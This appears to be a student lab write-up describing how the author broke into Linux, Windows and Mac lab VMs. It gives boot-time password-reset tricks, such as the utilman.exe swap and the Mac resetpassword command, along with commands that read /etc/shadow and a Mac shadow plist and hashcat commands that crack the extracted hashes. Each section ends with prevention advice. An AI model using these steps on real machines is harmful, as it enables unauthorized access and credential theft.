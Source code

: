 # Linux Machine Hack

To gain access to the Linux machine, I rebooted the machine and held shift as it boots to enter recovery mode. I then scrolled down and selected ```root``` to enter command line as root.

After that, I was able to remount the read-only filesystem to read-write permissions with:

```mount -o remount,rw /```

In order to see who I could log in as, I listed all local users with:

```cut -d: -f1 /etc/passwd```

I ran ```passwd bob``` to overwrite the password (I made the new passwd "hacked").

I then ran:

```sudo cat /etc/shadow | grep flag > flag.txt```

To filter through the unimportant lines and get the hash into an easily accessible file.

![cat flag.txt](catflag.png)

Here was the hash: 

```$6$TTlUhqDegkRZzugL$XGLwZlQLiyN8Tw/poDq4YRMFZIuy/0FMZYrghJZlbMNbPGZnj.EzdaXnu3kbKtKAhwQQ3DDV8ILVhd7Dc.5Cs0```

I then booted up my Kali Linux and used this Hashcat command to generate my wordlist:

```hashcat --stdout -a 3 ?l?l?l-?d?d?d ?l?l?l?d?d?d > ubuntu_list.txt```

After making a file to store my hash, I ran this Hashcat cracking command:

```hashcat -m 1800 -a 0 ubuntu_hash.txt ubuntu_list.txt```

![LinuxHashcat](LinuxHashcat.png)

![ubuntu_cracked](ubuntu_cracked.png)

It took 28 minutes, but returned the cracked password: ```rmk-898```.

![HackedLinux](HackedLinux.png)

### Prevention Method

To prevent someone from breaking into the Linux machine using this method, I would:

- Change the permissions for the directory to ensure that only root (and possibly a shadow group for redundancy) can access it:

```sudo chmod 400 /etc/shadow```
```sudo chown root:shadow /etc/shadow```

- Configure a log to track changes to the directory to be aware of anyone accessing it.

# Windows Machine Hack

To break into the Windows machine, I used a new Windows 10 VM to make a Windows 10 Installation Media in ISO form on my flash drive. I then plugged it into my given VM and booted from my Windows 10 installation media to bypass the restrictions put on the cracking machine.

Once the Windows setup screen appeared, I pushed shift + f10 to bring up the command prompt. I replaced the Utility Manager with the following two commands:

```move d:\windows\system32\utilman.exe d:\windows\system32\utilman.exe.bak```

```copy d:\windows\system32\cmd.exe d:\windows\system32\utilman.exe```

I removed the USB and restarted the computer. Once booted, I clicked on the Ease of Access button at the bottom right of the screen – which usually opens up the utility manager – but abracadabra, a wild cmd appears!

![utilman](utilman.png)

This command will replace the user’s password:

```net user <user> <password>```

So, I ran:

```net user eve hacked```

Et voilà! We’re in!

![WindowsProof](WindowsProof.png)

In order to crack the other account password, I used ophcrack to run a Rainbow Tables attack. I downloaded all of the XP tables from ophcrack.com, and ran them against my hash. (I think the XP_Special table was the one that did the trick, judging on the password it discovered).

The cracked password was: ```$xEn@=y```.

![OphCrack](OphCrack.png)

### Prevention Method

To prevent someone from breaking into the Windows machine using this method, I would ensure that nobody can get physical access to it, perhaps by keeping it in a locked office or requiring a key card to access the room it's in.

# Mac Machine Hack

To break into the Mac, I rebooted the machine and held ```command + r``` while it rebooted, then from the Utilities drop-down menu, selected ‘terminal’ to enter the terminal as root. I typed ```resetpassword``` in the terminal to bring up the password reset screen. Once again, I changed the password to ‘hacked’ and logged in to the user account.

![MacHacked](MacHacked.png)

After doing some research, I discovered that Mac hashes are stored as .plist files. To read the .plist, I ran:

```sudo plutil -p /var/db/dslocal/nodes/Default/users/flag.plist```

[Flag.plist](FlagPlist.jpg)

To get the hash from that plist, I ran:

```sudo defaults read /var/db/dslocal/nodes/Default/users/flag.plist ShadowHashData|tr -dc 0-9a-f|xxd -r -p|plutil -convert xml1 - -o -```

I then decoded the salt:

```echo  "1+8VSv65C4/xNBO5DOTYDW1cPh1B1qh7atIv22PWnGU" | base64 -d | xxd -p | tr -d \\n > /home/risingtenor/Documents/PasswordCracking/Hashes/oslab4_mac_salt.txt```

Then did the same for entropy:

```echo  "gFp3lSBP3XNeX2B7N1iXnYJihnyYKpQwmWRcy2iEkynNlbf9BJM1EhskffEU3gPy702d50mBBqcMskGHenNF2TXf0n/XM0bTVMdwZs06A70XoY9eU+uxDkTYnRn+/2qwFVU1ukg3H1rNdLLjV4SIe9g0DRAnXS+aWTE0N7Aokts=" | base64 -d | xxd -p | tr -d \\n > /home/risingtenor/Documents/PasswordCracking/Hashes/oslab4_mac_entropy.txt```

I then combined the hash data into something that Hashcat can read. This is the format showing which parts of the hash come from what data:

```$ml$<iterations(integer)>$<salt(hex)>$<entropy(hex)>```

And here’s the resulting file:

```$ml$49019$d7ef154afeb90b8ff13413b90ce4d80d6d5c3e1d41d6a87b6ad22fdb63d69c65$805a7795204fdd735e5f607b3758979d8262867c982a943099645ccb68849329cd95b7fd049335121b247df114de03f2ef4d9de7498106a70cb241877a7345d935dfd27fd73346d354c77066cd3a03bd17a18f5e53ebb10e44d89d19feff6ab0155535ba48371f5acd74b2e35784887bd8340d10275d2f9a59313437b02892db```

I put the files into Kali and then I did the crack using Hashcat with this command (I had previously downloaded the wordlist rockyou.txt to run against my hash):
```hashcat -m 7100 /home/risingtenor/Documents/PasswordCracking/Hashes/oslab4_mac_hash.txt /home/risingtenor/Documents/PasswordCracking/DictionaryLists/rockyou.txt```

![MacCrack](MacCrack.png)

The cracked password was: ```gangsta```.

![MacFlagProof](MacFlagProof.jpg)

### Prevention Method

To prevent someone from breaking into the Mac using this method, I would enforce a password policy that requires special characters, numbers, and long passphrases to prevent brute force-style dictionary attacks.

